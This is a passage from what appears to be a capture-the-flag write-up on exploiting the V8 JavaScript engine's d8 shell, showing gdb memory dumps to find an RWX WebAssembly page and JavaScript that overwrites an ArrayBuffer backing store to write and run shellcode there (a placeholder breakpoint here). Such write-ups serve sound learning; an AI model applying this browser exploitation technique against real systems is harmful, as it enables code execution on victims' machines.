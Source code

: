 Back in `gdb`, I’ll dump a bunch of memory starting at `wasm_instance`, and the address of that segment is in there, at an offset of 0x68:

```

gef➤  x/16gx 0x0bed08210e65-1
0xbed08210e64:  0x080406e908244901      0x20000000080406e9
0xbed08210e74:  0x0001000000007f38      0x0000ffff00000000
0xbed08210e84:  0x0000006000000000      0x080406e900000bed
0xbed08210e94:  0x000055eff9ac3200      0x00000000080406e9
0xbed08210ea4:  0x0000000000000000      0x0000000000000000
0xbed08210eb4:  0x0000000000000000      0x000055eff9ac3220
0xbed08210ec4:  0x00000bed00000000      0x00002c3409915000 <-- address of rwx memory
0xbed08210ed4:  0x08086f6508086e09      0x08210e4d08200f51

```

#### Write Shellcode to Segment

I’ll use the same code from Faith’s post to write shellcode into this page, and then call `f()`:

```

function copy_shellcode(addr, shellcode) {
    let buf = new ArrayBuffer(0x100);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x14n;
    arbwrite(backing_store_addr, addr);

    for (let i = 0; i < shellcode.length; i++) {
        dataview.setUint32(4*i, shellcode[i], true);
    }
}

var shellcode=[0xcccccccc];
console.log("[*] Copying shellcode tp rwx page")
copy_shellcode(rwx_page_addr, shellcode);
console.log("[*] Executing shellcode...");
f();

```

The offset from the ArrayBuffer to the backing store changed from 0x20 to 0x14 (pointer compression). I can find that with the debug version of `d8`:

```

df@buntu:~/v8$ gdb -q out.gn/x64.debug/d8 
GEF for linux ready, type `gef' to start, `gef config' to configure
80 commands loaded for GDB 9.2 using Python engine 3.8
Reading symbols from out.gn/x64.debug/d8...
gef➤  run --allow-natives-syntax --shell                                                     
Starting program: /home/df/v8/out.gn/x64.debug/d8 --allow-natives-syntax --shell
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7f09e2100700 (LWP 67750)]
V8 version 8.5.0 (candidate)                                                                 
d8> var buf = new ArrayBuffer(8);
undefined                    
d8> %DebugPrint(buf);        
DebugPrint: 0x935080c5e29: [JSArrayBuffer]
 - map: 0x093508281189 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x0935082478c1 <Object map = 0x935082811b1>
 - elements: 0x0935080406e9 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2    
 - backing_store: 0x555ab153a820
```